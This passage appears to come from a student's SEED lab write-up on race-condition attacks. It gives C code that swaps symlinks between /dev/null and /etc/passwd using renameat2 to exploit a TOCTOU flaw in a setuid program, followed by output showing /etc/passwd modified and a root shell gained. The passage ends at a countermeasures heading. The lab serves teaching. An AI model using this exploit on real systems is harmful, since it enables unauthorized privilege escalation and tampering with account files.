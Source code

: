 ### Task 2.C: An Improved Attack Method

The following program first makes two symbolic links `/tmp/XYZ` and `/tmp/ABC`, and then using the `renameat2` system call to atomically switch them. This method will introduce no race condition.

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <unistd.h>

int main()
{
    char* fn1 = "/tmp/XYZ";
    char* fn2 = "/tmp/ABC";
    char* ln1 = "/dev/null";
    char* ln2 = "/etc/passwd";
    unsigned int flags = RENAME_EXCHANGE;

    while (1) {
        unlink(fn1);
        symlink(ln1, fn1);
        usleep(100);

        unlink(fn2);
        symlink(ln2, fn2);
        usleep(100);

        renameat2(0, fn1, 0, fn2, flags);
    }

    return 0;
}
```

The attack succeeded:

```bash
[November 29 2021] seed@xingjian:~/Documents/RaceCondition$ ./target_process.sh
No permission 
No permission 
No permission 
No permission 
No permission 
No permission 
STOP... The passwd file has been changed
[November 29 2021] seed@xingjian:~/Documents/RaceCondition$ su test
Password: 
[November 29 2021] root@ip-172-31-1-54:/home/seed/Documents/RaceCondition#
```

## Task 3: Countermeasures
